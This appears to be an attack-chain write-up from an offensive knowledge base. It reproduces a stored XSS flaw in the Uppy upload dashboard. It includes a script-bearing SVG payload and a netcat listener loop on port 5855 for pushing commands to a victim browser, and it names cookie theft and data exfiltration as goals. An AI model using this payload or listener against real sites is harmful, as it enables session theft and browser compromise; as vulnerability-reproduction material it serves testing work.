

---
tags:
  - xss
  - stored-xss
  - svg
  - uppy
  - node.js
  - file-upload
type: attack_chain
tools:
  - '[[tools/git]]'
  - '[[tools/npm]]'
  - '[[tools/nc]]'
  - '[[tools/tusd]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/git-clone-uppy]]'
  - '[[commands/cd-uppy]]'
  - '[[commands/npm-install-uppy]]'
  - '[[commands/npm-start-uppy]]'
  - '[[commands/npm-run-dev-uppy]]'
  - '[[commands/alert-document-location]]'
  - '[[commands/setinterval-inject-script]]'
  - '[[commands/bash-loop-nc-listener]]'
platforms:
  - Web
  - Node.js
complexity: medium
procedures:
  - '[[procedures/Setup-Uppy-Development-Environment]]'
  - '[[procedures/Create-Malicious-SVG-with-Embedded-JavaScript]]'
  - '[[procedures/Upload-Crafted-SVG-via-Uppy-Dashboard]]'
  - '[[procedures/Trigger-XSS-by-Viewing-Uploaded-SVG]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
description: >-
  Demonstrates a stored XSS vulnerability in Uppy by uploading a malicious SVG
  file that executes JavaScript when viewed, enabling persistent code injection
  and potential data theft.
skill_level: intermediate
impact_level: high
id: 2c784cb0-5625-414b-851b-720f1b848bb7
created_at: '2025-12-14T03:16:14.098Z'
updated_at: '2025-12-14T03:16:14.098Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Stored XSS via Crafted SVG Upload in Uppy Dashboard

## Overview

This attack chain exploits a stored XSS vulnerability in the Uppy Node.js file upload module, where SVG files are not properly sanitized, allowing embedded JavaScript to execute when the file is rendered in a browser. An attacker crafts an SVG with a script tag, uploads it via the Uppy dashboard, and triggers execution by viewing the file link. This leads to persistent JavaScript execution, enabling cookie theft, malicious script injection from remote hosts, or interactive user compromise. The vulnerability stems from the tusd server serving SVGs directly without preventing script execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/git]]
- [[tools/npm]]
- Text editor for SVG creation
- Browser for testing

### Target Environment

- Node.js runtime
- Uppy module installed
- Ports 3452 (Uppy dev server) and optionally 5855 (for advanced payload testing)
- Local network access to the development server

### Initial Access Requirements

- No credentials needed for local setup
- Attacker must have ability to upload files to the Uppy dashboard
- Browser access to view uploaded files

## Detailed Attack Procedures

### Step 1: Setup Uppy Development Environment
procedure: [[procedures/Setup-Uppy-Development-Environment]]

**Objective**: Clone and configure the Uppy repository to run a local dashboard for testing file uploads.

**Instructions**: Use [[commands/git-clone-uppy]] to fetch the source:

```bash
git clone https://github.com/transloadit/uppy
```

Then navigate with [[commands/cd-uppy]]:

```bash
cd uppy
```

Install dependencies using [[commands/npm-install-uppy]]:

```bash
npm install
```

Start the server with [[commands/npm-start-uppy]]:

```bash
npm start
```

Run the dev mode with [[commands/npm-run-dev-uppy]]:

```bash
npm run dev
```

**Expected Output**: Development server running on http://localhost:3452, dashboard accessible.

**Success Indicators**:
- Repository cloned successfully
- Dependencies installed without errors
- Dashboard loads in browser without issues

### Step 2: Create Malicious SVG with Embedded JavaScript
procedure: [[procedures/Create-Malicious-SVG-with-Embedded-JavaScript]]

**Objective**: Craft an SVG file that appears legitimate but contains executable JavaScript for XSS.

**Instructions**: Use a text editor to create an SVG file with a polygon element and embedded script using [[commands/alert-document-location]] as the payload:

```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <polygon points="100,10 40,198 190,78 10,78 160,198" fill="red"/>
  <script>alert(document.location);</script>
</svg>
```

Save as `malicious.svg`.

**Expected Output**: Valid SVG file that renders a shape but executes JS on load.

**Success Indicators**:
- File saves without syntax errors
- Opening in browser (outside Uppy) triggers alert if tested

### Step 3: Upload Crafted SVG via Uppy Dashboard
procedure: [[procedures/Upload-Crafted-SVG-via-Uppy-Dashboard]]

**Objective**: Upload the malicious SVG to the Uppy dashboard, storing it for later execution.

**Instructions**: Access the dashboard at http://localhost:3452, select the `malicious.svg` file, and upload it. The tusd server handles the upload without sanitization.

**Expected Output**: File uploaded successfully, link generated for viewing.

**Success Indicators**:
- Upload completes without errors
- File appears in the dashboard list

### Step 4: Trigger XSS by Viewing Uploaded SVG
procedure: [[procedures/Trigger-XSS-by-Viewing-Uploaded-SVG]]

**Objective**: Render the uploaded SVG in the browser to execute the embedded JavaScript, demonstrating persistent XSS.

**Instructions**: Click the link to the uploaded SVG file. For advanced impact, replace the alert with [[commands/setinterval-inject-script]] and set up a listener using [[commands/bash-loop-nc-listener]] on port 5855:

```bash
while :; do printf "j$ "; read c; echo $c | nc -lp 5855 >/dev/null; done
```

The SVG renders, executing the script and potentially connecting to the listener for interactive compromise.

**Expected Output**: Alert popup with document location, or continuous script injection from remote host.

**Success Indicators**:
- JavaScript executes (alert appears)
- Cookies or DOM accessible for theft
- Remote commands receivable if listener active

## Attack Chain Summary

### Key Achievements

1. Local Uppy environment setup for vulnerability reproduction
2. Successful upload and storage of malicious SVG
3. Triggered persistent XSS execution in browser
4. Demonstrated potential for data exfiltration or further compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
